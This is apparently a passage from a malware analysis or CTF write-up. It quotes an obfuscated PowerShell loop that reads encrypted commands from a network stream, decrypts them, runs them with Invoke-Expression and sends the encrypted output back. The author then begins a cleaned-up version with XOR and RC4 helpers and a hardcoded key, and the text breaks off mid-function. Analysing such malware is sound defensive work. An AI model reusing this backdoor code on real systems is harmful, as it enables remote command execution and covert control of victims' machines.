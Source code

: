 ```
          $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, $B8B888BB8B8888BB.Length) | Out-Null
                  while ($true) {
              $B8B888BB8B8888BB = New-Object byte[] 16384
      try {
                     $B888BBB8B8B88B8B = $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, 16384)
                 } catch {
                    break
              }
                        $BBBB8888BBBBB8BB = $B8B888BB8B8888BB[5..($B888BBB8B8B88B8B - 1)]
                $B8B88B8BB888BBB8 = [System.Text.Encoding]::UTF8.GetString((lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $BBBB8888BBBBB8BB))
                         if ($B8B88B8BB888BBB8 -eq (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(109,112,97,124) -BB8BB8B8BBB8B8B8 8)) { break }
                      try {
                             $BB88B8B8BBBB888B = (Invoke-Expression $B8B88B8BB888BBB8 2>&1) | Out-String
                      } catch {
                   $BB88B8B8BBBB888B = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(186,141,141,144,141) -BB8BB8B8BBB8B8B8 255)
      }
          $BBBB8BB88BB888B8 = lllIIlIIlIllllll -B888BBBBB8B8B8BB $BB88B8B8BBBB888B.Trim()
                       $BBBB888888B88BBB.Write($BBBB8BB88BB888B8, 0, $BBBB8BB88BB888B8.Length)
            }
              $BBBB888888B88BBB.Close()
                $BBBB8BBBBBB8B88B.Close()
```

After cleaning this mess up a bit I end with up the script

```
# XOR Decryptor
function Decrypt-XOR {
    param([int[]]$data, [int]$key)
    return -join ($data | ForEach-Object { [char]($_ -bxor $key) })
}

# RC4-like encryption/decryption
function RC4-Transform {
    param ([byte[]]$key, [byte[]]$data)
    $S = 0..255
    $j = 0
    for ($i = 0; $i -lt 256; $i++) {
        $j = ($j + $S[$i] + $key[$i % $key.Length]) % 256
        $S[$i], $S[$j] = $S[$j], $S[$i]
    }
    $i = 0
    $j = 0
    $output = @()
    foreach ($byte in $data) {
        $i = ($i + 1) % 256
        $j = ($j + $S[$i]) % 256
        $S[$i], $S[$j] = $S[$j], $S[$i]
        $k = $S[($S[$i] + $S[$j]) % 256]
        $output += ($byte -bxor $k)
    }
    return ,$output
}

# Packet builder for command output (TLS-like)
function Build-Packet {
    param ([string]$data)
    $dataBytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $key = @(0xf1,0x6e,0xcd,0xc6,0x79,0x4c,0x66,0xd1,0x02,0xf8,0x33,0xc4,0x86,0xe7,0xa4,0x35,0x8d,0x69,0xbd,0xd2,0x1d,0x50,0xf5,0xfb,0xdf,0xec,0xaf,0x0b,0x9e,0x53,0xa4,0xd3)
```
